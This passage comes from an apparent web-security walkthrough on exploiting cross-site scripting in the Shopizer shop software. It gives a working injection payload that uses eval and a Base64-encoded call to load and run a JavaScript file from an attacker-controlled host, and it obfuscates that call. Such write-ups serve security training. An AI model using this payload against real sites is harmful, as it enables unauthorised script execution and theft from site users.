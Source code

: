 {% code title="xssShopizer.js" %}
```javascript
alert()
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/web_xss_shopizer_5.png" alt=""><figcaption><p>Figure 16: Base64 encoding and decoding the XSS payload.</p></figcaption></figure>

Finally, in order for our payload to be executed, we will wrap the `atob()` method with the [`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global\_Objects/eval) method. We also need to make sure to use the required `'` and `+` signs (Figure 17).

{% code overflow="wrap" %}
```javascript
// the final XSS payload
'+eval(atob("alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDUuMjE0L3hzc1Nob3BpemVyLmpzJyk="))+'
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/web_xss_shopizer_6.png" alt=""><figcaption><p>Figure 17: Successfully execute a remote JavaScript file via an XSS vulnerability.</p></figcaption></figure>

Although the XSS payload worked as intended, we get an `Error` alert right after it (Figure 18). If we repeat the process, we will notice that sometimes the `Error` comes before our payload, which prevents the payload to be executed.

<figure><img src="../../../../.gitbook/assets/web_xss_shopizer_7.png" alt=""><figcaption><p>Figure 18: The JavaScript error popup after the original payload is executed.</p></figcaption></figure>
